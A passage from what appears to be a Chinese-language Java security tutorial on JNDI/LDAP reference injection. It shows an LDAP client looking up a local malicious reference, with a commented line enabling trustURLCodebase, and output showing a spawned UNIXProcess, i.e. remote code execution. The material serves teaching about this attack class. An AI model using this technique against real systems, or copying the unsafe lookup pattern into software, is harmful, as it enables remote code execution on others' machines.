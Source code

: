 ```java
      }

   }
  
}
```

程序运行结果：

```
LDAP服务启动成功,服务地址：ldap://127.0.0.1:3890/test
```

**LDAP客户端代码：**

```java
package com.anbai.sec.jndi.injection;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

import static com.anbai.sec.jndi.injection.LDAPReferenceServerTest.LDAP_URL;

/**
 * Creator: yz
 * Date: 2019/12/27
 */
public class LDAPReferenceClientTest {

   public static void main(String[] args) {
      try {
//       // 测试时如果需要允许调用RMI远程引用对象加载请取消如下注释
//       System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");

         Context ctx = new InitialContext();

         // 获取RMI绑定的恶意ReferenceWrapper对象
         Object obj = ctx.lookup(LDAP_URL);

         System.out.println(obj);
      } catch (NamingException e) {
         e.printStackTrace();
      }
   }

}
```

程序运行结果：

```
java.lang.UNIXProcess@184f6be2
```
